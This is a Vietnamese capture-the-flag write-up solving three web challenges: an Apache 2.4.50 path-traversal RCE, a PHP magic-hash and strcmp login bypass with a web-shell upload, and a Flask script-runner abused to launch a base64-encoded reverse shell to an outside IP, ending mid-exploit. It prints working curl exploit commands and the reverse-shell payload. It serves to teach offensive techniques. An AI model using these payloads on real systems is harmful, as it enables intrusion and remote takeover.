# IAW301

> Đây là một challenge dễ, nhưng thật tiếc vì mình lú nên đã gõ sai một kí tự trong payload mà không biết :'(
> Xin úp mặt vào tường để tự kiểm điểm :'(

- Bắt đầu với challenge, ta được cung cấp 2 dữ liệu, file httpd.conf, và gợi ý về flag:



- `httpd.conf` là file config của Apache Server, truy cập vào file theo đường dẫn, mình nhận thấy có một số thứ hay ho:

```apache2
<Directory "/usr/local/apache2/cgi-bin">
    AllowOverride None
    Options None
    Require all granted
</Directory>
```

- Trong thời gian gần đây, có 2 CVE nổi tiếng liên quan đến 2 phiên bản của Apache và `cgi-bin` của nó, đó là [CVE-2021-41773](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41773) (Apache 2.4.49) và [CVE-2021-42013](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-42013) (Apache 2.4.50), đặc điểm chung là lỗi trong việc normalize path ở file `util.c` khiến tin tặc có thể sử dụng `path traversal` với payload thường thấy là `/cgi-bin/../../../etc.passwd`, nhưng, vì `util.c` đã check dấu `.` khi normalize path, nên chúng ta sẽ cần dùng tới những payload được encode như `/.%2e/` thay cho `/../`.

- Tất nhiên, giữa 2 CVE kể trên có sự khác nhau trong payload, vì vậy chúng ta cần check xem Apache đó thuộc phiên bản nào (nếu > 2.4.50 thì kiếp này coi như bỏ :'()

- Mình thử check với câu lệnh `nmap` đơn giản sau:

    ```nmap -A -p8889 139.180.208.121 -vvv```

    Và có được kết quả:

    ```shell
    PORT     STATE SERVICE REASON  VERSION
    8889/tcp open  http    syn-ack Apache httpd 2.4.50 ((Unix))
    | http-methods: 
    |   Supported Methods: HEAD GET POST OPTIONS TRACE
    |_  Potentially risky methods: TRACE
    |_http-title: Site doesn't have a title (text/html).
    |_http-server-header: Apache/2.4.50 (Unix)
    ```

- Như vậy là Apache 2.4.50, ta có thể dùng `%%32%65%%32%65/` hoặc `.%%32%65/` thay thế cho `../`

- Có một lưu ý là khi đọc `httpd.conf`, hãy để ý đến dòng `ScriptAlias` để biết liệu có alias nào thay cho `cgi-bin` không, ví dụ như trong bài này:

    ```ScriptAlias /nothingspecial/ "/usr/local/apache2/cgi-bin/"```

- Và để ý `DocumentRoot` như trong bài:

    ```DocumentRoot "/usr/local/apache2/htdocs"```

- Như vậy để truy cập được `/` thì ta cần 4 cặp `../`, thay thế alias và 2 cách encode đã kể trên, ta có payload:

    ```/nothingspecial/.%%32%65/.%%32%65/.%%32%65/.%%32%65/flag```

- Nhưng, như vậy liệu có đúng? Thử với `curl` và đây là kết quả:

    

- Thực tế có một cách khác, ta sẽ dùng đến `/bin/sh` và option `--data` của `curl` để mở file, đơn giản như sau:

    ```shell
    curl 'http://139.180.208.121:8889/nothingspecial/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh' --data 'echo; cat ../flag'
    ```

- Và đây là kết quả:
  
    

- Flag: `FUSEC{970c5c12bc41fd2783748e73fccf99b0}`

> Xin lỗi cả team noname vì mỡ đến miệng rồi mà để tuột mất vì một dấu % thừa :'(

# IAW302

> Bài này rất đúng với mô tả của người ra đề, một người anh (không hề) lừa: "G(old)". Một ví dụ điển hình cho một lỗi điển hình của PHP String :))

- Truy cập vào bài, ta có login form:

    

- Thử xem source code của bài xem sao? (Source code khá dài, nên mình sẽ cắt từ đoạn form đến hết hint)

    ```html
    <form action="verify.php" method="post">
        User Name:<br>
        <input type="text" name="username"><br><br>
        Password:<br>
        <input type="password" name="password"><br><br>
        <input type="submit" name="submit" value="Login">
    </form>
    <!--
    if(isset($_POST['submit'])){
            if ((int) $_POST['password'] === (int) "8xdeadbeef"){
                $usr = $_POST['username'];
                $pas = hash('sha256', htmlentities($_POST['password']));
                if($pas == "0" && strcmp("ahihi", $usr) == 0 && $usr != "ahihi"){
                    session_start();
                    $_SESSION['logged'] = TRUE;
                    header("Location: chall.php");
                    exit;
                    }
            }else{

                header("Location: index.php");
                exit;
            }
    }else{
            header("Location: index.php");
            exit;
    }
    ?>
    ```

- Vậy là chúng ta có gợi ý về code PHP của back-end, hãy thử phân tích nó một chút, để dễ dàng theo dõi, mình sẽ gán đoạn PHP vào Vim để nhìn theo line-number:

    

- Tại dòng thứ 3, ta có thể thấy toán tử so sánh `===` (cùng loại, cùng giá trị), `(int) "8xdeadbeef"` có giá trị là `8`, như vậy password cần mang giá trị `8` khi ép về `int`

- Nói qua một chút về việc ép `String` về `Integer` trong PHP, hãy để ý chuỗi `8xdeafbeef`, chuỗi này bắt đầu bằng số `8`, nên khi ép về `int` thì sẽ mang luôn giá trị là `8`, để dễ hình dung thì chúng ta thử trên PHP luôn:

    

- Như vậy ta biết password sẽ bắt đầu bằng `8` và kế tiếp là các kí tự không phải kí tự số như `8anhtunglua` chẳng hạn :>

- Ta biết password sẽ được hash `SHA256`, và không có salt (Dòng 5)

- Tại dòng 6 ta có 3 điều kiện với 3 phép so sánh: `==` và `!=` (so sánh giá trị, không so sánh kiểu) và `strcmp()` (so sánh 2 string, trả về 0 nếu giống nhau):

- Hãy để ý đến phép so sánh `$pas == "0"`, đây là một huyền thoại của PHP :> Ta biết rằng `$pas` được hash `SHA256` rồi mới đem vào so sánh, phép so sánh `==` giữa một chuỗi hash và `"0"` trong PHP sẽ gây ra lỗi liên quan đến Magic Hash, cụ thể thì những chuỗi hash bắt đầu bằng `"0e"`, khi so sánh `==` với `"0"` sẽ luôn trả về giá trị đúng xD, bạn có thể tìm hiểu về magic hash, không chỉ `SHA256` mà còn nhiều dạng khác [tại đây](https://github.com/spaze/hashes)

- Như vậy, password phải bắt đầu bằng `8` và có mã hash SHA256 bắt đầu bằng `"0e"`, theo link ở trên, mình tìm được mã này:

    ```text
    8W-vW:5ghashcat:0e99625202804787226908207582077273485674961623832383874594371630 (note: the plaintext has a colon in the middle)
    ```

- Như vậy password sẽ là `8W-vW:5ghashcat`

- Tiếp đến 2 điều kiện còn lại của dòng 6: `strcmp("ahihi", $usr) == 0 && $usr != "ahihi"` :D ???

- Mới đầu đọc mình cũng hơi bị lú tí, làm thế nào mà `strcmp` thì trả về 0 (giống nhau) mà đằng sau lại khác nhau cho được :D ???, nhưng, có một điều về `strcmp` trong PHP, hay nói đúng hơn là cái `==` chết tiệt của PHP:

  - Trong PHP, khi so sánh `NULL == 0` thì sẽ trả về true :D ??? Không đùa đâu, nó trả về true thật :> Đọc thêm tại [đây](https://www.php.net/manual/en/types.comparisons.php)

  - Có một cách để khiến `strcmp` trả về `NULL`, đó là so sánh `Array` và `String` :> Hãy đọc thêm tại [đây](https://www.doyler.net/security-not-included/bypassing-php-strcmp-abctf2016)

- Như vậy điều ta cần là nhập username dưới dạng `Array`, but how to do that?

- Để ý đến source code form của username: `<input type="text" name="username">`, ta thấy khi submit, query string sẽ có dạng `?username=anything&password=anything` đúng không? Vậy muốn đổi từ `?username=` sang `?username[]=` thì đơn giản ta chỉ cần sửa lại code HTML của username form thành `<input type="text" name="username[]">`

- Bây giờ tiến hành nhập username (mình để `ahihi` cho theo ý thích của người ra đề :>) và password `8W-vW:5ghashcat` và đây là kết quả:

    

    

- Ta đã vào được trang `chall.php` đúng như điều kiện của back-end PHP ở trên, Ctrl U để xem source code nào:

```php
if(isset($_FILES['file'])){
  if($_FILES['file']['size'] > 1048576){
     $errors='File size must be excately 1 MB';
  }

  if(empty($errors)==true){
    $up = "uploads/".rand().".".explode(".",$_FILES['file']['name'])[1];
    move_uploaded_file($_FILES['file']['tmp_name'],$up);
    echo "File uploaded successfully\n";
    echo '<p><a href='. $up .' target="_blank">File</a></p>';
  }else{
     echo $errors;
  }
}
```

- Đây là source code PHP cho phần upload file, có thể thấy ta có thể upload bất cứ file gì, miễn là đừng vượt quá `1048576 bytes` là được

- Mình sử dụng một file có tên là [c99shell.php](https://github.com/KaizenLouie/C99Shell-PHP7) để upload, truy cập vào file và ta có toàn bộ file được upload lên :v

    

- Lul, có vẻ flag không có ở đây, và nếu để ý thì tất cả file đều chỉ có quyền `read` mà thôi :v như vậy mình không thể dùng command rồi :v mình thử truy cập vào thư mục cha của thư mục hiện tại, và mình thấy file này:

    

- Thử dùng path traversal để mở file `fl@@@g_1337_ahiahi.txt` xem sao :v

    

- Vậy là đã có flag: `FUSec{Muốn giết một con rồng, máu phải chảy thành sông_Tai nạn quá, không sao, winable, winable guys}`

> Một bài khá dài hơi, flag này chả trách ông anh T giấu tên cứ nhắc đến "Kẻ giết rồng" :))

- Có một cách đơn giản, mà hay ho hơn để làm bài này

- Đầu tiên, chuẩn bị 1 file PHP như sau:

    ```php
    <?php
        phpinfo();
    ?>
    ```

- Tìm `disable_functions`, thu được danh sách các funcion bị chặn:

    

- Như vậy, rất nhiều function liên quan đến command và file handling bị chặn, nhưng có 2 hàm không bị chặn: `dir` và `include`

- Đầu tiên cần list file:

    ```php
    <?php
        $cur = dir(".");
        $par = dir("..");

        echo "Current:<br>";
        while (($file = $cur->read()) !== false){
        echo "filename: " . $file . "<br>";
        } 

        echo "Parent:<br>";
        while (($file = $par->read()) !== false){
        echo "filename: " . $file . "<br>";
        } 
        $cur->close();
        $par->close();
    ?> 
    ```

- Upload lên và mở file, thu được danh sách file trong thư mục hiện tại và thư mục cha, để ý thấy trong thư mục cha có file `fl@@@g_1337_ahiahi.txt`, đến đây thì path traversal cũng được, tạo file PHP cũng được:

    ```php
    <?php
        echo "<p>";
        include '../fl@@@g_1337_ahiahi.txt';
        echo "</p>";
    ?>
    ```

- Dù là cách nào thì cuối cùng cũng thu được flag:

    

# PRP201

> Đây là challenge mà mình đã đoán được một phần, nhưng vẫn mất gần 1 ngày để giải ra :< Một sản phẩm đến từ anh Khoa (matuhn)

- Truy cập vào bài thì thấy có 5 đường dẫn đến 5 file txt

- Thử truy cập vào một trong số đó sẽ thấy URL có dạng: `http://139.180.208.121:8001/getData?f=/fus/data/1.txt`, liệu đây có phải path traversal? có vẻ như các anh ra đề năm nay khá thích path traversal

- Mò mẫm một lúc thì mình tìm được file `flag.txt` cũng trong `/fus/data` :D với nội dung như sau:

    

- Vậy là cần phải làm cách nào đó để xem được cái `secret_service` đó

- Đến đây thì mình bắt đầu bí rồi, path traversal thì cũng cần phải biết có những gì trong đó chứ (hoặc ít nhất là mình nghĩ vậy), cho tới khi ban ra đề cho hint đầu tiên: `?f=/fus/data/../app.py`, vậy hãy xem source code này có vấn đề gì?

- Vì source khá dài nên mình sẽ phân tích từng hàm một, bỏ qua hàm index, vì nó in ra trang mà chúng ta truy cập vào đầu tiên

    ```python
    @app.route('/getData', methods=['GET'])
    def getLog():
        log_file = flask.request.args.get('f')
        if (log_file.startswith('/fus/data')):
            return flask.send_file(log_file, mimetype='text/plain', as_attachment=False)
        else:
            return ({'status': 'invalid path'},200)
    ```

- Ok, đây chính là hàm mà chúng ta dùng để đọc file và thực hiện path traversal, không có nhiều điều để nói về nó.

    ```python
    # run script to crawl data
    @app.route('/runScript')
    def runScript():
        json = flask.request.json
        msg = start(json)
        return ({'status': msg},200)

    def check_script_dup(scripts, command_log, json):
        try:
            script_parent_dir = scripts + '/' + json['dir']
            script_path = script_parent_dir + '/' + json['name']
        except:
            return "missing dir and name"
        if os.path.exists(script_path):
            return "duplicate script"
        else:
            if not os.path.exists(script_parent_dir):
                os.makedirs(script_parent_dir)
            return download_script(script_path, command_log, json)

    def download_script(script_path, command_log, json):
        try:
            script_link = json['url']
        except:
            return "missing url"
        # don't trust anyone
        if (urllib.parse.urlparse(script_link).netloc == "localhost:8888"):
            result = requests.get(script_link)
            with open(script_path, 'wb') as f:
                f.write(result.content)
                run_script(script_path, command_log)
        else:
            return "invalid script link"

    def run_script(script_path, command_log):
        lf = open(command_log, 'wb+')
        command = subprocess.Popen(['bash', script_path], stderr=lf, stdout=lf, universal_newlines=True)
        return "Run successfully"

    def start(json):
        scripts = home + '/scripts'
        log = home + '/logs'
        if not os.path.exists(scripts):
            os.makedirs(scripts)
        if not os.path.exists(log):
            os.makedirs(log)
        try:
            command_log = log + '/' + json['command_log'] + '.txt'
        except:
            return "missing command_log"
        msg = check_script_dup(scripts, command_log, json)
        return msg
    ```

- Mình sẽ để cả 5 hàm này chung với nhau, vì chúng liên quan mật thiết với nhau, và cũng là tiền đề cho mọi thứ

- Ta có thứ tự như sau:

  - `runScript()` nhận json từ request và truyền cho hàm `start()`

    - `start()` xử lý việc tạo ra đường dẫn thư mục cho `logs`, `scripts` và tạo file `command_log` và đưa vào hàm `check_script_dup()`

    - `check_script_dup()` nôm na thì kiểm tra xem file script đã tồn tại hay không, nếu tồn tại thì tất nhiên là không cần mất công đến hàm tiếp theo, hàm `download_script()`

    - `download_script()` là phần sẽ "tạo ra nội dung file", bằng cách nhập file từ `url` trong JSON vào file `script`, ở đây ta biết được rằng, `url` đó sẽ có dạng `http://localhost:8888/anything_else` vì đoạn `#dont trust anyone`, hãy nhớ điều này

    - Sau khi `download_script()` hoàn tất, hàm `run_script()` được khởi động, hàm này sẽ chạy một câu lệnh `bash <script_bash>`, và từ đây ta hiểu được 2 điều:

      - `script_bash` là tên file được thực thi bới lệnh `bash`, có nội dung được nhập từ nôi dung file trên `url` của JSON truyền vào

      - `command_log` chính là file log của `stdout` và `stderr`, như vậy khi thực thi, output và thông báo lỗi của `bash` đều sẽ đẩy vào file log đó, và tất nhiên, ta có thể xem file log đó qua path traversal

- Đến đây thì mình (và tin chắc ai đó khi xem WU này), chắc hẳn đều đã nghĩ ra rồi, tác giả cũng đã ra hint `suprocess.Popen(), stderr, stdout là gì?` rồi :v

- Mình thử luôn nhé :v Như ở trên ta đã có JSON bao gồm `dir`, `name`, `command_log`, `url`

- URL để nhận file JSON là `http://139.180.208.121:8001/runScript`, để gửi JSON lên thì mình sử dụng `curl` như sau:

    ```bash
    curl -X GET http://139.180.208.121:8001/runScript -H 'Content-Type: application/json' -d '{json}'
    ```

- Mình sẽ thử tạo một JSON như sau:

    ```json
    {
        "dir" : "test",
        "name" : "ls",
        "command_log" : "log",
        "url" : "http://localhost:8888/"
    }
    ```

- Ghép lại với `curl`:

    ```shell
    curl -X GET http://139.180.208.121:8001/runScript -H 'Content-Type: application/json' -d '{"dir" : "test", "name" : "ls", "command_log" : "log", "url" : "http://localhost:8888/"}'
    ```

- Và sau khi gửi, truy cập vào `http://139.180.208.121:8001/getData?f=/fus/data/../logs/log.txt` để xem kết quả của câu lệnh là gì (ta biết `logs` cùng chung thư mục cha với `data` khi xem code):

    

    

- Có thể thấy rằng, nội dung file chính`log.txt` chính là biến `script_path` được ra thêm cả `response` của `index()`, chúng trên một dòng nên sẽ bị lỗi, thử đổi `ls` thành `\nls\n` ở JSON và gửi lên, sẽ thấy sự khác biệt:

    

    

- Thấy rõ là `ls` đã thụt xuống, vậy điều này có ý nghĩa gì? `bash <filename>` khi chạy sẽ chạy từ trên xuống như các ngôn ngữ lập trình, nhưng có một điều đặc biệt là, hàng nào lỗi, nó sẽ in ra lỗi và chạy hàng tiếp theo, chứ không dừng lại khi gặp lỗi syntax bên trong

- Đến đây thì mình đã nhận ra, hàm `download_script()`, vậy sẽ ra sao nếu mình truyền vào `url` trong JSON là `http://localhost:8888/getData?f=/fus/data/../logs/log.txt` (nên lưu ý `localhost` ở đây là local của server :> ), thì có phải `download_script()` sẽ lấy nội dung của `log.txt` để đưa vào `script_path`?

- Như vậy mình tạo JSON mới và lệnh `curl` mới như sau:

    ```json
    {
        "dir" : "test",
        "name" : "ls.sh",
        "command_log" : "lssh",
        "url" : "http://localhost:8888/getData?f=/fus/data/../logs/log.txt"
    }
    ```

    ```shell
    curl -X GET http://139.180.208.121:8001/runScript -H 'Content-Type: application/json' -d '{"dir" : "test", "name" : "ls.sh", "command_log" : "lssh", "url" : "http://localhost:8888/getData?f=/fus/data/../logs/log.txt"}'
    ```

- Và gửi đi, giờ chỉ cần mở file `lssh.txt` bằng path traversal và thu được kết quả:

    

    

- Vậy là chính xác rồi, nhưng có một vấn đề là ta cần tìm đến `/root` để mở file `secret_service`, và tất nhiên là phải root thì mới có thể làm được điều đó (mình đã thử rồi)

- Mụ mẫm cả đầu thì anh T giấu tên và anh Khoa (tác giả) đã gợi ý về `reverse shell`

- Vậy bây giờ chỉ cần dùng cách trên, tạo một file chạy một đoạn reverse shell và chúng ta sẽ chiếm quyền thông qua SUID (hint từ tác giả) là xong

- Nhưng, mình đã thử và nhận ra, tất cả những command mà chứa dấu '/' thì lỗi 500 là rõ, như ở dưới mình để `name` trong JSON là `\nls ../root\n`:

    

- Vậy là mình cần cách khác, nhưng trước tiên, phải chuẩn bị cái reverse shell đã :D

    ```shell
    sh -i >& /dev/tcp/34.92.153.161/8899 0>&1
    ```

- Có cả revshell của `bash`, `nc`, ..., tìm hiểu tại [đây](https://www.revshells.com/)

- Vẫn là tác giả đã gợi ý cho mình một cách để đẩy được revshell kia lên, sử dụng `base64`, chuyển đoạn shell ở trên thành `base64` encode, và đưa về dạng sau:

    ```shell
    echo "c2ggLWkgPiYgL2Rldi90Y3AvMzQuOTIuMTUzLjE2MS84ODk5IDA+JjEK" | base64 -d | bash
    ```

- Vậy là xong, giờ cần chuẩn bị request đầu tiên (hãy nhớ escape string :v):

    ```json
    {
        "dir" : "rev",
        "name" : "\necho \"c2ggLWkgPiYgL2Rldi90Y3AvMzQuOTIuMTUzLjE2MS84ODk5IDA+JjE=\" | base64 -d | bash\n",
        "command_log" : "rev",
        "url" : "http://localhost:8888/"
    }
    ```

    ```shell
    curl -X GET http://139.180.208.121:8001/runScript -H 'Content-Type: application/json' -d '{"dir" : "rev","name" : "\necho \"c2ggLWkgPiYgL2Rldi90Y3AvMzQuOTIuMTUzLjE2MS84ODk5IDA+JjE=\" | base64 -d | bash\n","command_log" : "rev","url" : "http://localhost:8888/"}'
    ```

- Gửi đi, và trước khi đến với lần request thứ 2, mình phải tạo một listener trên máy của mình đã (thực ra là VPS mình mượn của một người bạn xứ cảng):

    ```shell
    nc -lvnp 8899
    ```

    

- Giờ để listener ở đó, ta quay lại với request thứ 2, request để chạy revshell:

    ```json
    {
        "dir" : "rev_tcp",
        "name" : "rev_tcp.sh",
        "command_log" : "rev",
        "url" : "http://localhost:8888/getData?f=/fus/data/../logs/rev.txt"
    }
    ```

    ```shell
    curl -X GET http://139.180.208.121:8001/runScript -H 'Content-Type: application/json' -d '{"dir" : "rev_tcp","name" : "rev_tcp.sh","command_log" : "rev","url" : "http://localhost:8888/getData?f=/fus/data/../logs/rev.txt"}'
    ```

- Và gửi đi, rồi quay lại listener:

